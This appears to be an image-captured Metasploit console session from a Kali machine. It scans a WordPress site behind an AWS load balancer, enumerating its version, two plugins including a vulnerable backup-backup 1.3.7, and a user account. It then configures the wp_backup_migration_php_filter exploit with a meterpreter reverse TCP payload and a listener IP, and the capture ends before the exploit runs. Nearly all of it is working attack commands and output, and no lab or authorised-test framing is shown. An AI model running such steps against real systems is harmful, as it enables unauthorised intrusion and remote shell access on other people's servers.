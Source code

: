 ```console

┌──(kali㉿kali)-[~]
└─$ msfconsole --quiet

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.



 ** Metasploit Framework Initial Setup Complete **

This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use auxiliary/scanner/http/wordpress_scanner
msf6 auxiliary(scanner/http/wordpress_scanner) > set rhost ab5bc303e73b84fd597cb02c422e1f23-691116016.eu-central-1.elb.amazonaws.com
rhost => ab5bc303e73b84fd597cb02c422e1f23-691116016.eu-central-1.elb.amazonaws.com
msf6 auxiliary(scanner/http/wordpress_scanner) > run

[*] Trying 3.73.29.183
[+] 3.73.29.183 - Detected Wordpress 6.5
[*] 3.73.29.183 - Enumerating Themes
[*] 3.73.29.183 - Progress  0/3 (0.0%)
[*] 3.73.29.183 - Finished scanning themes
[*] 3.73.29.183 - Enumerating plugins
[*] 3.73.29.183 - Progress   0/63 (0.0%)
[+] 3.73.29.183 - Detected plugin: all-in-one-wp-migration version 7.81
[+] 3.73.29.183 - Detected plugin: backup-backup version 1.3.7
[*] 3.73.29.183 - Finished scanning plugins
[*] 3.73.29.183 - Searching Users
[+] 3.73.29.183 - Detected user: wordpress with username: wordpress
[*] 3.73.29.183 - Finished scanning users
[*] 3.73.29.183 - Finished all scans
[*] Scanned 1 of 2 hosts (50% complete)
[*] Trying 3.120.25.116
[+] 3.120.25.116 - Detected Wordpress 6.5
[*] 3.120.25.116 - Enumerating Themes
[*] 3.120.25.116 - Progress  0/3 (0.0%)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[*] 3.120.25.116 - Finished scanning themes
[*] 3.120.25.116 - Enumerating plugins
[*] 3.120.25.116 - Progress   0/63 (0.0%)
[*] Scanned 1 of 2 hosts (50% complete)
[*] Scanned 1 of 2 hosts (50% complete)
[+] 3.120.25.116 - Detected plugin: all-in-one-wp-migration version 7.81
[+] 3.120.25.116 - Detected plugin: backup-backup version 1.3.7
[*] 3.120.25.116 - Finished scanning plugins
[*] 3.120.25.116 - Searching Users
[+] 3.120.25.116 - Detected user: wordpress with username: wordpress
[*] 3.120.25.116 - Finished scanning users
[*] 3.120.25.116 - Finished all scans
[*] Scanned 2 of 2 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wordpress_scanner) >
msf6 auxiliary(scanner/http/wordpress_scanner) > use exploit/multi/http/wp_backup_migration_php_filter
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhost ab5bc303e73b84fd597cb02c422e1f23-691116016.eu-central-1.elb.amazonaws.com
rhost => ab5bc303e73b84fd597cb02c422e1f23-691116016.eu-central-1.elb.amazonaws.com
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 52.57.50.4
lhost => 52.57.50.4
```